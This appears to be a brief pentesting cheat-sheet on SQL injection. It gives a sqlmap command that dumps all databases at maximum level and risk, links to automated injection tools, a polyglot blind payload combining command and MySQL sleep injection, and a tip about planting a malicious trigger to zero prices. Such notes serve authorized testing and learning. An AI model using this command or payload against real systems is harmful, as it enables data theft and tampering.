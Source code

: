 # SQL Injection

## Tools
- SqlMap:
```
sqlmap -r sqlmap.req --level=5 --risk=3 --dump-all​
```
- AutoSQLi: https://github.com/jesuiscamille/AutoSQLi
- SQLiDumper: https://www.cybrary.it/0p3n/pentesting-sqli-dumper-v8-tool/
- Automatic SQL injection with Charles and sqlmap api
  - http://0r1.me/SQLiScanner/
  - https://github.com/0xbug/SQLiScanner

## Payload
Combines blind command injection and blind sql injection ( mysql ) in one payload (works with no quotes/single quotes and double quotes):
```
/*$(sleep 5)`sleep 5``*/sleep(5)#'/*$(sleep 5)`sleep 5` #*/||sleep(5)||'"||sleep(5)||"`
```
> https://mobile.twitter.com/bl4ckh4ck5/status/1100167033407320065

## Techniques
- Add a trigger to do a malicious action (price 0)

## Language Specific

### PHP
- Good example from DOCs, where parameterization is not used: http://php.net/manual/en/mysqli.examples-basic.php (use: https://phptherightway.com/)
